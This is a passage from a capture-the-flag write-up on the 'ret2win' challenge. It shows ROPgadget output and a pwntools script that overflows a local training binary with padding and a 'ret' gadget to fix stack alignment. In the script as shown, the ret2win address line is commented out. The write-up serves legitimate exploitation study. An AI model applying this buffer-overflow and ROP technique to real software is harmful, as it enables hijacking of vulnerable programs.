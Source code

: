 Knowing this I decided to try padding the `ROP chain` with an extra `ret`. To do that I just needed to find the correct address of a ret, a `ROP gadget`. 

For that I used the tool ROPgadget : 

* `ROPgadget --binary ./ret2win --ropchain`

```js
Gadgets information
============================================================
0x000000000040060e : adc byte ptr [rax], ah ; jmp rax
0x00000000004005d9 : add ah, dh ; nop dword ptr [rax + rax] ; ret
...
...
0x0000000000400690 : push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400620
0x000000000040053e : ret   <-------- We need this address
0x0000000000400542 : ret 0x200a
0x0000000000400608 : sal byte ptr [rbp + rcx + 0x5d], 0xbf ; pop rax ; adc byte ptr [rax], ah ; jmp rax
0x000000000040064a : sal byte ptr [rbx + rcx + 0x5d], 0xbf ; pop rax ; adc byte ptr [rax], ah ; jmp rax
0x0000000000400535 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000004007f5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004007f4 : sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004007ea : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x0000000000400534 : test eax, eax ; je 0x40053a ; call rax
0x0000000000400533 : test rax, rax ; je 0x40053a ; call rax

Unique gadgets found: 94

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

    [-] Can't find the 'mov qword ptr [r64], r64' gadget
```

As you can see in the output above we have a return ROP gadget in the address : `0x000000000040053e`

# Script 

```python
from pwn import *

elf = ELF('ret2win')

p = process(elf.path)

#Prepare the payload
payload = b"A"*40                   #creates the junk part of the payload
payload += p64(0x40053e)            #ret address ROP chain. Necessary because we are in Ubuntu 20.04 64bits
# payload += p64(elf.symbols.ret2win) #address to ret2win() function

# Send the payload
p.sendline(payload)                 #send the payload to the process

r = p.recvall()              #gets all messages in the process
print(re.search("(ROPE{.*?})",r.decode()))
```
